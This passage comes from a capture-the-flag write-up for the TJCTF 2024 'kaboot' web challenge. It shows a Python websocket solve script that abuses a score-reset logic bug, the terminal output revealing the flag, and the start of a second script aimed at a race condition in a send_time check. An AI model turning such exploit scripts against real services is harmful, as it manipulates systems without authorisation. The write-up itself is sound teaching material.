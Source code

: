 ```python
                sendTime = time.time()
                encodedMessage = base64.b64encode('{{"id":"{0}","answer":{1},"send_time":{2}}}'.format(id, answer, sendTime).encode())
                await websocket.send(encodedMessage)

            message = await websocket.recv() # final answer's information
            finalMessage = json.loads(base64.b64decode(message).decode())
            if 'omg congrats' not in finalMessage['message']:
                print('[-] Current score is <= 10000')
            else:
                if (flagMatch := re.search(FLAG_FORMAT, finalMessage['message'])) or (flagMatch := re.search(LOCAL_FLAG_FORMAT, finalMessage['message'])):
                    flag = flagMatch.group(0)
                    print(f'[+] Current score is >= 10000. Here\'s the flag: {flag}')
    except websockets.exceptions.ConnectionClosedError:
        print('[*] Connection closed')

if __name__ == "__main__":
    # url = "ws://localhost:5000/room/literally_anything" # local testing
    url = "wss://kaboot-0af29d2ec5fe4b03.tjc.tf/room/literally_anything" # remote instance

    ATTEMPT = 2 # run twice to gain score >= 10000
    for i in range(ATTEMPT):
        print(f'[*] Attempt {i + 1}...')
        asyncio.run(exploit(url))
```

```shell
┌[siunam♥Mercury]-(~/ctf/TJCTF-2024/web/kaboot)-[2024.05.20|15:09:46(HKT)]
└> python3 solve_logic_bug.py
[*] Attempt 1...
[-] Current score is <= 10000
[*] Attempt 2...
[+] Current score is >= 10000. Here's the flag: tjctf{t00_sw1ft_f0r_y0u_b0iiiiii_2cfdfa7a}
```

Nice! We successfully exploited the reset score logic bug to gain more than `9999` score! 

- **Flag: `tjctf{t00_sw1ft_f0r_y0u_b0iiiiii_2cfdfa7a}`**

### Race Condition in `send_time` Check

**We can also exploit the race condition in the client's `send_time` condition via this Python solve script:**
```python
import websockets
import asyncio
import json
import base64
import time
import re

allScores = list()

async def exploit(url, raceWindow):
    QUESTION_LENGTH = 10
    LOCAL_FLAG_FORMAT = r'(flag\{[ -z|~]+\})'
    FLAG_FORMAT = r'(tjctf\{[ -z|~]+\})'
    try:
        async with websockets.connect(url) as websocket:
            message = await websocket.recv() # room's title name message

            for i in range(QUESTION_LENGTH):
                message = await websocket.recv() # question and answer information message
                question = json.loads(base64.b64decode(message).decode())
```
